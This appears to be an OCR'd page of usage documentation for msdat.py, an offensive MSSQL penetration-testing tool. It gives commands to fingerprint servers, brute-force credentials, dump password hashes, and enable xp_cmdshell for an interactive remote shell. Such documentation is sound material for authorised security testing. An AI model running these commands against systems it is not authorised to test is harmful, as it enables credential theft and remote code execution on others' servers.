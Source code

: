 *mssqlinfo* module
---

To get technical information about a remote MSSQL server without to be authenticated:
```bash
./msdat.py mssqlinfo -s $SERVER -p $PORT --get-max-info
```

This module uses *__TDS protocol__* and *__SQL browser Server__* to get information.

*passwordguesser* module
---

This module allows you to search valid credentials :
```bash
./msdat.py passwordguesser -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --force-retry --search
```

*--force-retry* option allows to test multiple passwords for each user without ask you

You can specify your own account file with the *--accounts-file* option:
```bash
./msdat.py passwordguesser -s $SERVER -p $PORT --search --accounts-file accounts.txt --force-retry
```

*passwordstealer* module
---

To dump hashed passwords :
```bash
./msdat.py passwordstealer -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --dump --save-to-file test.txt
```

This modules has been tested on SQL Server 2000, 2005, 2008 and 2014.

*xpcmdshell* module
---

To execute system commands thanks to *xp_cmdshell* ([https://msdn.microsoft.com/en-us/library/ms190693.aspx](https://msdn.microsoft.com/en-us/library/ms190693.aspx)):
```bash
./msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --shell
```

This previous command give you an interactive shell on the remote database server.

If *xp_cmdshell* is not enabled, the *--enable-xpcmdshell* can be used in this module to activate it:
```bash
./msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --enable-xpcmdshell --disable-xpcmdshell --disable-xpcmdshell --shell
```

The *--enable-xpcmdshell* option enables *xp_cmdshell* if it is not enabled (not enabled by default).

The *--disable-xpcmdshell* option disables *xp_cmdshell* if this one is enabled.
